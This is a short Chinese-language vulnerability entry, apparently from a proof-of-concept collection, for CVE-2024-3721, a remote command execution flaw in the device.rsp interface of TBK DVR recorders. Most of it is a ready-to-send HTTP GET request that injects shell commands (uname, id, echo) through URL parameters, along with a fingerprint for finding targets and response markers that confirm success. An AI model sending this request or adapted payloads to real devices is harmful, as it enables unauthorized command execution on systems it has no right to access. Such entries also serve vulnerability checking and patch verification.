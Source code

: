 ﻿# TBK DVR硬盘录像机-RCE-device

> 更新时间：2024-05-14

> 漏洞编号：CVE-2024-3721

> 漏洞说明： TBK DVR硬盘录像机 device接口处存在RCE(CVE-2024-3721)，恶意攻击者可能利用此漏洞执行恶意命令，获取服务器敏感信息，最终可能导致服务器失陷。 

> 漏洞特征："Location: /login.rsp"

> 验证脚本：HTTP

```
GET /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=uname%20-a;id;echo%20888888 HTTP/1.1
Cookie: uid=1
```

> 响应代码特征：200

> 响应内容特征：888888

> 上传文件定位：

> 验证文件来源：TBK DVR硬盘录像机-RCE-device.poc


